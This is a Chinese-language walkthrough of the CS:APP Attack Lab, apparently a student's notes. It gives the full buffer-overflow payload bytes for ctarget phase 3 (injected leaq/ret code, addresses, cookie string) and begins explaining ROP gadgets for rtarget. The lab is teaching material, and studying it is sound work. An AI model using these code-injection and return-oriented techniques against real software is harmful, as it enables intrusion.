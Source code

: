 ## phase_3

* `touch3`的参数是字符串，需要在栈上存储字符串
* 栈是向下（低地址）增长的，为了避免字符串参数被覆盖，其地址应高于返回地址，思路如下：

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区
// <-- getbuf 开始执行 ret 时，%rsp 的位置
注入的指令的地址
// <-- getbuf 执行完 ret 时，%rsp 的位置
touch3 的地址
cookie 字符串
// getbuf 执行完 ret 时，cookie 字符串地址为 %rsp + 0x8
leaq 0x8(%rsp), %rdi
ret
// 栈顶(高地址)
```

* 同phase_2，gdb在`getbuf`的`ret`指令设断点，取到`%rsp`的值
* `注入的指令的地址` 应为 `%rsp + 0x20`，`0x20`为两个地址加字符串长度，为`0x5561dcc0`
* `touch3`地址为 `0x004018fa`
* `python -c "print(' '.join(hex(ord(i))[2:] for i in '59b997fa'))"`
* 将cookie转为其ASCII的十六进制表示
* 注意C字符串以0结尾，为了方便计算补了8个字节0，这也是上面0x20的来源
* `leaq 0x8(%rsp), %rdi`机器码`48 8d 7c 24 08`，综上，答案：

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区
c0 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61  // 字符串
00 00 00 00 00 00 00 00  // 字符串结尾，8个字节方便计算
48 8d 7c 24 08
c3 // ret
// 栈顶(高地址)
```

# rtarget

与ctarget相比，对rtarget的攻击存在两个难点:

* 引入了栈地址随机化，无法像攻击ctarget那样取得栈地址的绝对值。
* 栈上的指令不可执行，即使在栈注入指令，执行了也是 segmentation fault。

第一点可以通过相对地址，即 `%rsp + offset` 的方式解决。
第二点则要利用rtarget中原有的特殊字节序列：gadget。上文的实验说明给了一个例子，程序中有这样的一个函数：

```assembly
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
